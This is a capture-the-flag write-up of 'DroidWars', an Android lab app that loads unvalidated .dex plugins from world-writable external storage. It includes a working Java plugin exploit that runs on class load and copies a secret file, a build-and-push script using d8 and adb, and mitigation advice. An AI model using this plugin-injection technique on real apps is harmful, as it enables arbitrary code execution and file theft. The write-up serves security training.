


*( بِسْمِ اللَّـهِ الرَّحْمَـٰنِ الرَّحِيمِ )*

:::caution
 #FreePalastine
:::

---

## **8. DroidWars — Dynamic Code Loading Pwn (POV Write‑Up)**

This challenge ships an Android app that dynamically loads “Pokémon” plugins from external storage. World-accessiable, no validation, rce for free? :"D

---

### Step 1: Recon and Entry Points

Start by decompling using `JADX` or `APK-LAB` VSCode Extension

- Manifest permissions include `INTERNET`, `READ_EXTERNAL_STORAGE`/`WRITE_EXTERNAL_STORAGE`, and `MANAGE_EXTERNAL_STORAGE` (Android 11+ “All files access”).
- Plugins are discovered and loaded from a public, world‑writable path:

```plaintext
/sdcard/PokeDex/plugins/
```

- Main loading flow:

```kotlin
// MainActivity.onCreate → checkStoragePermissionAndLoadPlugins()
private fun loadExternalPlugins() {
 val dir = File("/sdcard/PokeDex/plugins/")
 dir.mkdirs()
 val names = pluginLoader.getAvailablePlugins()       // lists *.dex (name without .dex)
 for (name in names) {
  logOutput("Attempting to load Pokémon plugin: $name")
   val plugin = pluginLoader.loadPlugin(name)       // DexClassLoader under the hood
  if (plugin != null) addToList(plugin)
 }
}
```

- The loader is a custom wrapper around Android’s `DexClassLoader`:

```kotlin
// com.eightksec.droidwars.plugin.PluginLoader
val dex = DexClassLoader(dexPath, optimizedDir, /*libPath*/ null, parentLoader)
val clazz = dex.loadClass(className)   // ← class init triggers static blocks
val inst = clazz.newInstance()         // ← constructor runs with app perms
```

- Two plugin shapes are accepted:
  - Full `PokemonPlugin` interface
  - A “SimplePlugin” shape (`getName()`/`getType()`/`getAllData()`) adapted via reflection

- There’s a helper button “Check for Exploit Evidence” that just reads/prints files like `/sdcard/stolen_data.txt`. I guess it was made for `POC` purpose

Threat boundary: untrusted code from `/sdcard` is executed with full app context. That’s the issue we got.

---

### Step 2: Root Cause and Attack Strategy

- Root cause: The app loads executable code from a world‑writable path without any signature validation, sandboxing, or integrity checks.
- Impact: Arbitrary code execution inside the app’s process with its permissions (read/write external storage, network, etc.).
- Strategy: Ship a `.dex` plugin that the loader accepts (via the `SimplePlugin` shape), and perform file operations in a static block/constructor so it runs on load.

:::important
I just created a file called SECRET.txt and added some dump text to it for the POC, you can do much more I guess xd
:::

### Quick refresher: Dynamic loading and trust boundary (from troubleshooting)

- `DexClassLoader` is an Android system class for loading `.dex` at runtime; `PluginLoader` here is a custom wrapper that discovers and instantiates plugins.
- It becomes vulnerable when loading from world‑writable locations like `/sdcard` without signature/integrity checks or sandboxing.
- Safe patterns: load from app‑private storage, verify signatures (pin developer key), validate checksums/versions, and minimize privileges.

---

### Step 4: Final Exploit (kept as I used it)

Purpose: When the app loads my class, copy the secret from `Download/SECRET.txt` to `/sdcard/stolen_data.txt`. The app’s “Check Evidence” button will then display it.

:::tip
Grant storage permission in‑app if not prompted; otherwise the loader won’t see your plugin.
:::

```java
// Pwn.java (SimplePlugin shape; static block + ctor both trigger)
import java.io.*;
import java.util.*;

public class Pwn {
    
 // Static block executes when class is loaded
 static {
  pwn();
 }
    
 // Constructor also executes
 public Pwn() {
  pwn();
 }
    
 private static void pwn() {
  try {
   String sourcePath = "/sdcard/Download/SECRET.txt";
   String destPath = "/sdcard/stolen_data.txt";
            
   File sourceFile = new File(sourcePath);
   File destFile = new File(destPath);
            
   // Check if source file exists
   if (!sourceFile.exists()) {
    System.err.println("[-] Source file not found: " + sourcePath);
    return;
   }
            
   // Copy the file
   copyFile(sourceFile, destFile);
   System.out.println("[+] File copied to: " + destPath);
            
   // Read and print the contents
   String contents = readFileContents(destFile);
   System.out.println("[+] File Contents:");
   System.out.println(contents);
            
  } catch (Exception e) {
   System.err.println("[-] Error: " + e.getMessage());
   e.printStackTrace();
  }
 }
    
 private static void copyFile(File sourceFile, File destFile) throws IOException {
  FileInputStream fis = null;
  FileOutputStream fos = null;
        
  try {
   fis = new FileInputStream(sourceFile);
   fos = new FileOutputStream(destFile);
            
   byte[] buffer = new byte[1024];
   int length;
            
   while ((length = fis.read(buffer)) > 0) {
    fos.write(buffer, 0, length);
   }
            
   fos.flush();
            
  } finally {
   if (fis != null) {
    try { fis.close(); } catch (IOException e) { }
   }
   if (fos != null) {
    try { fos.close(); } catch (IOException e) { }
   }
  }
 }
    
 private static String readFileContents(File file) throws IOException {
  BufferedReader reader = null;
  StringBuilder contents = new StringBuilder();
        
  try {
   reader = new BufferedReader(new FileReader(file));
   String line;
            
   while ((line = reader.readLine()) != null) {
    contents.append(line).append("\n");
   }
            
  } finally {
   if (reader != null) {
    try { reader.close(); } catch (IOException e) { }
   }
  }
        
  return contents.toString();
 }
    
 // SimplePlugin interface
 public String getName() { return "Pwned"; }
 public String getType() { return "Hacked"; }
 public Map<String, Integer> getAllData() { 
  Map<String, Integer> m = new HashMap<>();
  m.put("HP", 1337);
  return m;
 }
}
```

Why this works reliably:

- Code executes  (class init + constructor) → run during various loader paths.
- Uses only Java I/O → no Android SDK jars needed for compilation.
- Implements the `SimplePlugin` shape → accepted and displayed in the list without full interface boilerplate.

---

### Step 5: Build & Deploy

I created a simple automated `PS` script to make things faster (thanks claude ;"D).

```powershell
# 1) Compile to .class (avoid bootclasspath; just use Java 8 bytecode)
javac -source 8 -target 8 Pwn.java

# 2) Convert to DEX using d8
& "C:\\Users\\inova\\AppData\\Local\\Android\\Sdk\\build-tools\\34.0.0\\d8.bat" --output . Pwn.class
Rename-Item classes.dex Pwn.dex -Force

# 3) Push to the app’s plugin directory
adb shell mkdir -p /sdcard/PokeDex/plugins/
adb push Pwn.dex /sdcard/PokeDex/plugins/

# (Optional) Verify presence
adb shell ls -la /sdcard/PokeDex/plugins/
```

In‑app steps:

1. Launch DroidWars, grant storage permission (or `MANAGE_EXTERNAL_STORAGE` on Android 11+).
2. Tap “Refresh Pokémon” to trigger loading. My `Pwn` plugin appears (name “Pwned”).
3. Tap “Check for Exploit Evidence” → the app reads `/sdcard/stolen_data.txt` and prints the file content in the log.




---

### Exploit Flow Recap

```plaintext
Pwn.dex on /sdcard/PokeDex/plugins/
   ↓
MainActivity → loadExternalPlugins()
   ↓
PluginLoader → DexClassLoader.loadClass("Pwn")
   ↓              
static { pwn(); } runs → copies SECRET.txt → stolen_data.txt
   ↓
new Pwn() runs → pwn(); again (redundant safety)
   ↓
App UI button reads stolen_data.txt → displays content (flag/secret)
```

---

### Ummmm Why was the app vulnerable ?

- Loaded untrusted code from a world‑writable location: `/sdcard/PokeDex/plugins/` is writable by other apps/users.
- No authenticity or integrity verification of plugins (no signature check, no hash validation, no provenance binding).
- No sandboxing/isolation: plugin classes execute inside the app process with full app permissions (`INTERNET`, storage), so static initializers and constructors can perform `RCE` on class load.
- Trust boundary confused: treating “any `.dex` on external storage” as trusted plugins.
- Over‑broad storage permission (`MANAGE_EXTERNAL_STORAGE`) increases the blast radius and attack surface.

---

### what broke and how I fixed it :"D

- `javac` complained about target 17/bootclasspath → compiled plain Java bytecode instead: `-source 8 -target 8` (no Android APIs needed).
- Legacy `dx` tool missing → used modern `d8` from Build‑Tools to convert `.class` → `.dex`.
- Loader “didn’t see” my plugin → granted storage permission in‑app and ensured directory existed: `/sdcard/PokeDex/plugins/`.

---

### Mitigations - developers please study security :(

- Don’t load code from world‑writable storage; if plugins are required, keep them in app‑private storage (`/data/data/<pkg>/files`).
- Verify publisher identity and integrity: signature (pinned public key) + strong hash (e.g., SHA‑256) before loading.
- Reduce privileges and isolate: avoid `MANAGE_EXTERNAL_STORAGE`, consider isolated processes or a sandboxed plugin framework.
- Prefer configuration/feature flags or Play Feature Delivery dynamic modules over ad‑hoc `.dex` loading.
- Restrict what can be instantiated: explicit allow‑list of class names, block static initializers’ side effects, and validate interfaces strictly.

---
